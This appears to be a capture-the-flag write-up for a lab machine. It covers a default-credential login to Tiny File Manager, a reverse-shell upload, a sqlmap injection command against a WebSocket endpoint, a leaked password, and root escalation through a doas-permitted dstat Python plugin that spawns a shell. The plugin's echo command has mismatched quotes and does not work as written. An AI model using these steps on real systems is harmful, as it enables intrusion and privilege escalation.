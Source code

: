 User FLAG
-----

1. Scan target
2. Enter port 80
3. Add dns entry to /etc/hosts
4. Enumerate directories
5. Find tinyfilemanager
6. Find credentials
7. Login to tinyfilemanager
8. Upload reverse shell
9. Enumerate machine
10. Found another host from the nginx configuration
11. Explore application
12. Create an account
13. Login with that account
14. Check ticket part
15. Try server-side-template-injection (nope)
16. Try sql injection with websocket url (sqlmap)
17. Obtain DB names
18. Obtain user to SSH
19. Get user flag

## Info
There is a path /tiny which uses tinyfilemanager (found with feroxbuster)

`Credentials`
Default username/password: admin/admin@123 (found here https://github.com/prasathmani/tinyfilemanager?tab=readme-ov-file#how-to-use)

Expressjs running on new hostname (Wappalyzer)
Found this code in the source

```js
var ws = new WebSocket("ws://soc-player.soccer.htb:9091"); // We can use this later!
window.onload = function () {

var input = document.getElementById('id');

function sendText() {
    var msg = input.value;
    if (msg.length > 0) {
        ws.send(JSON.stringify({
            "id": msg // This is used as the payload
        }))
    }
    else append("????????")
}
}

ws.onmessage = function (e) {
    append(e.data)
}

function append(msg) {
    let p = document.querySelector("p");
    p.textContent = msg
}
```

As we can see the payload sends an id which is the message.
After this we can scan it with sqlmap sending an id

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

Created `sqlmap.log`

At this point we have the db name, we can dump it with sqlmap too, and there we have ssh user to obtain user flag.

### Inside machine

```bash
ls -al /etc/nginx/sites-enabled
total 8
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
lrwxrwxrwx 1 root root   34 Nov 17  2022 default -> /etc/nginx/sites-available/default
lrwxrwxrwx 1 root root   41 Nov 17  2022 soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
```

## Versions

OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
nginx 1.18.0
Tiny File Manager 2.4.3
back-end DBMS: MySQL >= 5.0.12

## Services

xmltec-xmlmail

## Password

PlayerOftheMatch2022

Root FLAG
-----

1. Find SUID files
2. Found that doas is installed
3. Check doas configuration
4. Found that we can execute dstat as root
5. Create a plugin for dstat
6. Execute dstat with the plugin
7. Obtain root flag

```bash
find / -perm -4000 -type f 2>/dev/null
/usr/local/bin/doas # The one we are looking for, others are not relevant
```

### What is doas?

doas is used to assume the identity of another user on the system. 

where is configuration?

Usually at `/etc/doas.conf` but in this case is at `/usr/local/etc/doas.conf`

You can find the configuration with the following command

```bash
whereis doas.conf
locate doas.conf
```

```bash
cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```

Knowing that we can execute the following command `/usr/bin/dstat`

We are going to research about how to use dstats to obtain a shell. For this we can use GTFOBins.

`dstat` allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the `dstat` man page under “FILES”:

```shell
~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

After researching with `ls -la` we found that `/usr/local/share/dstat/` exists and we can write in it.

With this simple information we can create a python script to obtain a shell with root privileges.

```bash
echo "import os; os.execv('/bin/sh', ["sh"])' > dstat_shell.py
```

```bash
doas -u root /usr/bin/dstat --shell
```

Congratulations! You have obtained root access to the machine.

## Links

- https://wiki.archlinux.org/title/Doas
- https://gtfobins.github.io/gtfobins/dstat/
- https://tinyfilemanager.github.io/
- https://github.com/sqlmapproject/sqlmap